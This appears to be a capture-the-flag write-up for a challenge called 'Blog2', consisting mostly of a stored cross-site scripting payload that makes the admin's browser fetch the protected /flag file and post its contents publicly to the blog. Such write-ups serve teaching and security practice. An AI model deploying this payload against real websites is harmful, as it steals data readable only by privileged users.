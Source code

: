 # Blog2
A modification from the first blog-task. Same setup, but the flag is in /flag - readable only by admin.

We expand the javascript to make admin fetch it for us and post it on the blog:
```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/flag',true);
req.send();
function handleResponse() {
    var postReq = new XMLHttpRequest();
    postReq.open('post', '/create', true);
    postReq.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    postReq.send('title=pwn&body=' + this.responseText)
};
</script>
```

